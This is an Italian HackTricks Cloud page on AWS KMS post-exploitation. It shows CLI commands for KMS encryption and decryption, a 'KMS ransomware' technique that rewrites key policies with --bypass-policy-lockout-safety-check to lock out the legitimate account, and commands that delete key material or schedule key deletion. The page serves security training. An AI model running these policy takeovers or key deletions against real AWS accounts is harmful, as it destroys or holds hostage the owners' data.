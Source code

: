 # AWS - Post-Esploitation di KMS

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

## KMS

Per ulteriori informazioni controlla:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Crittografia/Decrittografia delle informazioni

* Utilizzando una chiave **simmetrica**
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Utilizzando una chiave **asimmetrica**:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
Se ricevi l'errore 'Si è verificato un errore (InvalidCiphertextException) durante la chiamata all'operazione Decrypt:' quando tenti di eseguire kms decrypt, prova a utilizzare **`--ciphertext-blob file://`** invece di **`fileb://`**.

L'uso di **`file://`** ti consente di utilizzare comodamente file scritti nel tuo encoding preferito quando usi la CLI.
Nelle versioni 1.6.3 e successive della CLI, hai accesso a un altro modo per passare i contenuti di un file alla CLI, **`fileb://`**. Funziona in modo simile a **`file://`**, ma anziché leggere i contenuti del file come testo, li legge come binario.

Nella maggior parte dei casi, **`file://`** soddisferà il tuo caso d'uso per passare i contenuti di un file in input. Tuttavia, ci sono alcuni casi in cui è necessario utilizzare **`fileb://`** per passare i contenuti del file come binario anziché come testo.
Leggi di più da AWS qui: [AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### Ransomware di KMS

Un attaccante con accesso privilegiato su KMS potrebbe modificare la policy di KMS delle chiavi e **concedere al suo account l'accesso su di esse**, rimuovendo l'accesso concesso all'account legittimo.

Successivamente, gli utenti dell'account legittimo non potranno accedere a nessuna informazione di qualsiasi servizio che è stato crittografato con quelle chiavi, creando un ransomware semplice ma efficace sull'account.

{% hint style="warning" %}
Nota che le **chiavi gestite da AWS non sono interessate** da questo attacco, solo le **chiavi gestite dal cliente**.

Nota anche la necessità di utilizzare il parametro **`--bypass-policy-lockout-safety-check`** (la mancanza di questa opzione nella console web rende questo attacco possibile solo dalla CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Nota che se modifichi quella policy e concedi accesso solo a un account esterno e poi da questo account esterno provi a impostare una nuova policy per **restituire l'accesso all'account originale, non sarai in grado di farlo**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Ransomware KMS Generico

#### Ransomware KMS Globale

C'è un altro modo per eseguire un Ransomware KMS globale, che coinvolgerebbe i seguenti passaggi:

* Creare una nuova **chiave con un materiale chiave** importato dall'attaccante
* **Ri-cifrare i dati più vecchi** cifrati con la versione precedente con la nuova.
* **Eliminare la chiave KMS**
* Ora solo l'attaccante, che possiede il materiale chiave originale, potrebbe essere in grado di decifrare i dati cifrati

### Distruggere le chiavi
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Si noti che AWS ora **impedisce che le azioni precedenti vengano eseguite da un account diverso:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusivi [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
